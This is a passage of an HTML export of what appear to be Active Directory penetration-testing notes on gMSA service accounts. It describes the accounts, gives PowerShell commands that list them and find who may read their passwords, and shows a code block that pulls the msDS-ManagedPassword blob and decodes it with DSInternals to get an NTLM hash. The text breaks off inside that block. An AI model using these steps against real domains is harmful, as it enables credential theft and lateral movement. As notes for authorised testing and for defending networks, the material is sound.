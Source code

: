 ## Then copy the files you need (e.g. NetLoader), perform port-forwarding, and load whatever you want</code></pre><h2 id="5415e9fa-3a44-410a-8773-1d9de47430db" class="">gMSA</h2><ul id="00415beb-62c3-49f6-a75d-1f1aa6b3babc" class="bulleted-list"><li style="list-style-type:disc">provides password management, password rotation (every 30 days), and management of SPNs and delegated administration for service accounts </li></ul><ul id="596df86f-0cd6-4570-9d35-c4e2ea59c2c8" class="bulleted-list"><li style="list-style-type:disc">helps protect against Kerberoast attacks</li></ul><ul id="aedf8f04-5974-49f1-bd71-841dcaa93574" class="bulleted-list"><li style="list-style-type:disc">can potentially read the gMSA password from the <code>msds-ManagedPassword</code> attribute (stored in binary form of MSDS-MANAGEDPASSWORD_BLOB) <ul id="d0f99660-9d9c-4609-ba31-db3498cfabf7" class="bulleted-list"><li style="list-style-type:circle">must be explicitly allowed to do so (not even Domain Admins can read this by default)</li></ul></li></ul><table id="da33c589-d6fb-4496-bee5-ec8309e8b9d4" class="simple-table"><tbody><tr id="8fc5b6c4-6c44-4b51-98e8-a1b166e4355d"><td id="\wCX" class="" style="width:260px"><strong>Command</strong></td><td id="~Bof" class="" style="width:453.00000762939453px"><strong>Description</strong></td></tr><tr id="5e400486-68e8-45e1-8f98-31b5ced5ce7b"><td id="\wCX" class="" style="width:260px"><code>Get-ADServiceAccount -Filter *</code></td><td id="~Bof" class="" style="width:453.00000762939453px">Get all gMSA accounts (denoted with the object class <code>msDS-GroupManagedServiceAccount</code>)</td></tr><tr id="16a67f35-9e80-4f37-99b5-9409ab76e78f"><td id="\wCX" class="" style="width:260px"><code>Get-ADServiceAccount -Identity gmsa_account_0xd4y -Properties * | select PrincipalsAllowedToRetrieveManagedPassword</code></td><td id="~Bof" class="" style="width:453.00000762939453px">Get users that can read the <code>msds-ManagedPassword</code> attribute</td></tr></tbody></table><p id="c19bcd8b-0ae1-40bd-85b5-2a4a07759938" class=""><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong>Converting gMSA Password to NTLM Hash</strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></p><pre id="26e4ff62-6a3e-4ce5-ad04-0daa766214c8" class="code"><code>$PasswordBlob = (Get-ADServiceAccount -Identity 0xd4y -Properties msDS-ManagedPassword).&#x27;msDS-ManagedPassword&#x27;
Import-Module C:\PATH\TO\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $PasswordBlob 